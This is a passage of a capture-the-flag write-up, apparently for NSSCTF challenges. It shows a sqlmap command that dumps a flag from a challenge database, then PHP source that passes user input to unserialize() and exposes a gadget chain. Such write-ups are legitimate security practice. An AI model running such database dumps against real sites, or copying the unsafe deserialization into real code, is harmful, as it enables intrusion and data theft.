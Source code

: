 ```bash
+--------+-------------+
| Column | Type        |
+--------+-------------+
| flag   | varchar(50) |
| id     | int(11)     |
+--------+-------------+
$ python sqlmap.py -u http://node2.anna.nssctf.cn:28431/index.php?id=1 -D test_db -T test_tb -C flag --dump
Database: test_db
Table: test_tb
[1 entry]
+----------------------------------------------+
| flag                                         |
+----------------------------------------------+
| NSSCTF{d9d7ae7c-5b01-461c-836a-4e0f784d9784} |
+----------------------------------------------+
```

### pop

```php
<?php

error_reporting(0);
show_source("index.php");

class w44m{

    private $admin = 'aaa';
    protected $passwd = '123456';

    public function Getflag(){
        if($this->admin === 'w44m' && $this->passwd ==='08067'){
            include('flag.php');
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo 'nono';
        }
    }
}

class w22m{
    public $w00m;
    public function __destruct(){
        echo $this->w00m;
    }
}

class w33m{
    public $w00m;
    public $w22m;
    public function __toString(){
        $this->w00m->{$this->w22m}();
        return 0;
    }
}

$w00m = $_GET['w00m'];
unserialize($w00m);

?>
```